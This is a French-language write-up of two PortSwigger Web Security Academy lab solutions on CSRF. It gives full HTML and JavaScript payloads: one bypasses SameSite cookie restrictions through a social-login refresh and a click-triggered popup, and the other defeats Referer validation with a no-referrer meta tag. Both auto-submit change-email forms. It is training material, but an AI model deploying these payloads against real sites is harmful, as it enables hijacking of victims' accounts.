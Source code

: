 On observe qu'en allant sur /social-login le flow de connexion OAuth est répété et un nouveau cookie est généré.

Il faut donc combiner l'étape du nouveau cookie et de la CSRF pour fiabiliser l'exploit : 

    <form method="POST" action="https://0aa000c204a80b7181fc890500160068.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="pwned@web-security-academy.net">
    </form>
    <script>
        window.open('https://0aa000c204a80b7181fc890500160068.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);

        function changeEmail(){
            document.forms[0].submit();
        }
    </script>

On voit que la nouvelle fenêtre est bloquée par le navigateur parce que l'on a pas interagi manuellement avec la page, or il vaut mieux ouvrir nouvelle fenêtre pour éviter de gêner la CSRF.

Payload final permettant de contourner ce blocage : 

    <form method="POST" action="https://0aa000c204a80b7181fc890500160068.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="pwned@portswigger.net">
    </form>
    <p>Click anywhere on the page</p>
    <script>
        window.onclick = () => {
            window.open('https://0aa000c204a80b7181fc890500160068.web-security-academy.net/social-login');
            setTimeout(changeEmail, 5000);
        }

        function changeEmail() {
            document.forms[0].submit();
        }
    </script>

### CSRF where Referer validation depends on header being present

Le header Referer est un autre moyen de se protéger des CSRF, en vérifiant le point précédent de la requête reçue.

Dans notre cas, on peut vérifier que si l'on rejoue la requête de modification d'adresse avec un Referer différent, elle est rejetée.

Toutefois, si l'on supprime carrément le header, la requête fonctionne. On peut donc inclure une balise <meta> dans le payload final pour forcer l'absence du header : 


    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <meta name="referrer" content="no-referrer">
      <body>
        <form action="https://0a8900fb04bf10ac81740c40003e0064.web-security-academy.net/my-account/change-email" method="POST">
          <input type="hidden" name="email" value="abcde&#64;gmail&#46;com" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          history.pushState('', '', '/');
          document.forms[0].submit();
        </script>
      </body>
    </html>
